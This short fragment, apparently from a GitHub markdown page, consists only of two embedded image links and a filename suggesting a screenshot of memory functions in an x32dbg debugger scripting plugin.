


x32dbg-escript.api-memory.png



